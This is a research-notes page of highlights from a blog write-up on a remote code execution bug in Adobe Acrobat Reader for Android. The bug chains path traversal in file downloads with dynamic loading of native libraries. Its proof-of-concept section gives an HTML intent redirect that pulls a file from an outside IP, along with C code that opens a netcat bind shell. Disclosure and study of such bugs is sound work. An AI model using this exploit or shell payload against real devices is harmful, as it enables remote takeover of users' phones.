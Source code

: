 ```yaml
---
author: hulkvision.github.io
aliases:
  - RCE in Adobe Acrobat Reader for Android
tags:
  - readwise/articles
  - Android
  - Adobe-Acrobat
  - Adobe-Acrobat/Reader-Android
  - vulnerability-research/todo
url: https://hulkvision.github.io/blog/post1/
date: 2024-08-20
product: "[[../../Targets/Adobe Acrobat/Acrobat Reader (Android)/Acrobat Reader (Android)|Acrobat Reader (Android)]]"
---
```

# RCE in Adobe Acrobat Reader for Android

![rw-book-cover](http://hulkvision.gitlab.io/featured-image.png)

## Highlights


> While testing Adobe Acrobat reader app , the app has a feature which allows user to open pdfs directly from http/https url. This feature was vulnerable to path traversal vulnerability. Abode reader was also using Google play core library for dynamic code loading. using path traversal bug and dynamic code loading,i was able to acheive remote code execution.
> [View Highlight](https://read.readwise.io/read/01j0qvjnzkq0wfn9gcrc15q0x6)



> When an intent with data url for example `http://localhost/test.pdf` is sent to adobe reader app,it downloads the file in `/sdcard/Downloads/Adobe Acrobat` folder with filename as LastPathSegment(i.e `test.pdf`) of the sent url.
> [View Highlight](https://read.readwise.io/read/01j0qvkzzqh8ef1f6bab3znv1y)



> For example let take this url `https://localhost/x/..%2F..%2Ffile.pdf` so when this url is passed to getLastPathSegment() method it will take `..%2F..%2Ffile.pdf` as last segment of the url and will return `../../file.pdf` as output.
> [View Highlight](https://read.readwise.io/read/01j0qy3q6571xtr2cykd0teyjw)



> # Getting RCE
>  Adobe Acrobat Reader app was using Google play core library to provide additional feature on the go to its users.
>  A simple way to know whether an app is using play core library for dynamic code loading is to check for `spiltcompat` directory in `/data/data/:application_id/files/` directory.
>  Using path traversal bug i can write an arbitrary apk in `/data/data/com.adobe.reader/files/splitcompat/1921618197/verified-splits/` directory of the app.The classes from the attacker’s apk would automatically be added to the ClassLoader of the app and malicious code will be executed when called from the app. For more detailed explanation read this [article](https://blog.oversecured.com/Why-dynamic-code-loading-could-be-dangerous-for-your-apps-a-Google-example/)
> [View Highlight](https://read.readwise.io/read/01j0qy5hw7rj9gd1ajnchf6ewj)



> play core library also provide feature of loading native code(.so files) from `/data/data/com.adobe.reader/files/splitcompat/:id/native-libraries/` directory.
>  `FASOpenCVDF.apk` module was also loading an native library from `/data/data/com.adobe.reader/files/splitcompat/1921819312/native-libraries/FASOpenCVDF.config.arm64_v8a` directory. I decided to take a look into `FASOpenCVDF.apk` source code and there i founded this module is also trying to load three unavailable libraries `libADCComponent.so`,`libColoradoMobile.so` and `libopencv_info.so` and this solved my issue of executing code remotely.
> [View Highlight](https://read.readwise.io/read/01j0qy7dfbatt1k8ng25mk69zr)



> # Proof of Concept
>  <html>
>  <title> RCE in Adobe Acrobat Reader for android </title>
>  <body>
>  <script>
>  window.location.href="intent://34.127.85.178/x/x/x/x/x/..%2F..%2F..%2F..%2F..%2Fdata%2Fdata%2Fcom.adobe.reader%2Ffiles%2Fsplitcompat%2F1921819312%2Fnative-libraries%2FFASOpenCVDF.config.arm64_v8a%2Flibopencv_info.so#Intent;scheme=http;type=application/*;package=com.adobe.reader;component=com.adobe.reader/.AdobeReader;end";
>  </script> 
>  </body>
>  </html>
>  #include <jni.h>
>  #include <stdio.h>
>  #include <stdlib.h>
>  #include <unistd.h>
>  JNIEXPORT jint JNI_OnLoad(JavaVM* vm, void* reserved) {
>  if (fork() == 0) {
>  system("toybox nc -p 6666 -L /system/bin/sh -l");
>  }
>  JNIEnv* env;
>  if (vm->GetEnv(reinterpret_cast<void**>(&env), JNI_VERSION_1_6) != JNI_OK) {
>  return JNI_ERR;
>  }
>  return JNI_VERSION_1_6;
>  }
> [View Highlight](https://read.readwise.io/read/01j0qy7vdvff1ndyjax6m7405j)

